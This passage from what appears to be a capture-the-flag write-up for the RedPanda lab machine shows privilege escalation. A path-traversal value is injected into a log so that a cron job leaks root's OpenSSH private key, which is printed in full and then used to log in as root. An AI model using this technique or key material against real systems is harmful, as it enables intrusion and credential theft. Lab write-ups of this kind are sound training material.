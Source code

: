 And inject another log:

```

woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log

```

I’ll make sure the JPG is still in place and hasn’t been cleaned up as well.

When the cron next runs, the key is there:

```

woodenk@redpanda:/opt/panda_search$ cat /tmp/0xdf_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>1</views>
    <root>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</root>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/peter.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>1</totalviews>
</credits>

```

#### Get Shell

I’ll save that key to a file, and use it to connect over SSH:

```

oxdf@hacky$ vim ~/keys/redpanda-root
oxdf@hacky$ chmod 600 ~/keys/redpanda-root
oxdf@hacky$ ssh -i ~/keys/redpanda-root root@10.10.11.170
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)
...[snip]...
root@redpanda:~#

```
